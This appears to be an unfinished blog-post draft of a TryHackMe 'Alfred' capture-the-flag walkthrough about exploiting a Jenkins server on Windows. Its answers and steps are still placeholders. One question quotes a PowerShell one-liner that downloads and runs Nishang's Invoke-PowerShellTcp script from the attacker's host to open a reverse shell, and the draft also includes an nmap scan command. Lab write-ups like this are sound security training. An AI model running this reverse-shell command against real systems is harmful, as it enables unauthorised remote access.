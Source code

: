 ```yaml
---
layout: post
title: Alfred
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap]
---
```

![Basic Pentesting](./assets/alfred.png){: .right }{: w="200" h="200" }
## Walkthrough
[https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)

**Difficulty level:** Easy

## Task 1: Initial Acess
In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. 

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)


### Questions

Q1. How many ports are open? (TCP only)

> ""

Q2. What is the username and password for the login panel? (in the format username:password)

> ""

Q3. Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server


> "No answer needed"

Q4. What is the user.txt flag? 

> ""

### MyWalk

mywalk_description

```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46
```
{: .nolineno }

next_step_description